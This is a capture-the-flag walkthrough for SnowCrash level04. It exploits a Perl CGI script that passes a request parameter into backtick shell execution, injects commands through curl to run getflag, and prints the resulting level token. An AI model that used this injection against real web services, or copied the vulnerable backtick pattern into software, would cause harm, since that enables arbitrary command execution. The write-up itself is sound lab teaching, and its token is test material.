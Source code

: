 Level04 instructions

We have a perl executable file on the home directory
After executing it, we didn't get anything but we can notice from the output, a webserver may be running on the machine. also we can notice it after cating the content of the file. 
```
level04@SnowCrash:~$ ./level04.pl
Content-type: text/html


level04@SnowCrash:~$ ./level04.pl sd
Content-type: text/html

level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
The script print the value of the "x" parameter after parsing it from the argument.
```
level04@SnowCrash:~$ ./level04.pl x=hamza
Content-type: text/html

hamza
level04@SnowCrash:~$ curl localhost:4747?x=hamza
hamza
```
As we can see the second print have backticks (`...`), which allows arbitrary command execution. means wa can try to nested command execution.
```
level04@SnowCrash:~$ curl localhost:4747?x=`whoami`
level04
```
we the command executed as level04 not flag04. Let's find the vhost of this webserver
```
level04@SnowCrash:~$ ps aux | grep www-data
www-data  1497  0.0  0.1  21420  4244 ?        S    Feb07   0:04 /usr/sbin/apache2 -k start
www-data  1498  0.0  0.1  21412  4252 ?        S    Feb07   0:00 /usr/sbin/apache2 -k start
www-data  1499  0.0  0.1  21420  4248 ?        S    Feb07   0:00 /usr/sbin/apache2 -k start
www-data  1500  0.0  0.1  21420  4248 ?        S    Feb07   0:00 /usr/sbin/apache2 -k start
www-data  1501  0.0  0.1  21420  4248 ?        S    Feb07   0:00 /usr/sbin/apache2 -k start
www-data  5955  0.0  0.1  21420  4248 ?        S    09:29   0:00 /usr/sbin/apache2 -k start
level04   6037  0.0  0.0   4384   804 pts/0    S+   09:40   0:00 grep --color=auto www-data
level04@SnowCrash:~$ find / -user flag04 2>/dev/null
/var/www/level04
/var/www/level04/level04.pl
level04@SnowCrash:~$ cat /etc/apache2/sites-enabled/level05.conf
<VirtualHost *:4747>
	DocumentRoot	/var/www/level04/
	SuexecUserGroup flag04 level04
	<Directory /var/www/level04>
		Options +ExecCGI
		DirectoryIndex level04.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
</VirtualHost>
```
From here we can see that even we had level04 on the `whoami` command the `getflag` will work cause SuexecUserGroup flag04 level04 will change the group of the user to flag04
```
level04@SnowCrash:~$ curl http://localhost:4747?'x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$ su level05
Password:
level05@SnowCrash:~$
```